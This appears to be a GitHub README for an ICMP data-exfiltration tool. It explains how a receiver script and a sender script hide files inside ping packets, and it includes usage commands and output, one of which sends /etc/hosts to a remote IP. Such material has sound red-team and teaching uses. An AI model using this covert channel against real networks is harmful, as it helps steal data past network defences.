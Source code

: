 # ICMP-Data-Exfiltration

This program is used to send data over the network within "ICMP Packets", with the help of the "PING" command.
we can send any type of file over the network between two hosts with the help of this script.


## Requirements
Need to have the [Scapy] library installed to sniff packets on the network.

### Installations
```bash 

pip3 install scapy

```
or
```bash 

sudo apt install python3-scapy

```

## Examples of How To Use
The program works with two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any "ICMP packets" that are coming towards our host machine, once we start receiving packets
this script will automatically decode the message and print it to the display and also in the same time the script
will save the output to indicate file.

Second file "icmp_sendData.py", with the help of this script we can send any type of file we want to another host 
where it is listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" 
to the script, and it will automatically convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

┃  [!] Usage icmp_exfiltration.py <Interface-Name> <File-name to save data>                         
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

┃  [!] Usage ../ICMP-Data-Exfiltration/icmp_sendData.py <IP-Address> <File-Name to send over the network>
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py wlan0 data.txt
                                                                                                                                                                                      
┃  [*]  Listening for any incoming connections...                                                                                                                                         
                                                                                                                                                                                          
┃  [*]  Saving data to file 

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we run the "icmp_exfiltration.py" file specifying which interface we want to listen on.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

┃  [*]  Hosts active,  Linux system

┃  [*]  Trying to send file..

100%|████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████| 720000/720000 [00:00<00:00, 4097689.59it/s]

┃  [*]  File sent successfully
```
Then from another host we will run the "icmp_sendData.py" script by providing the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

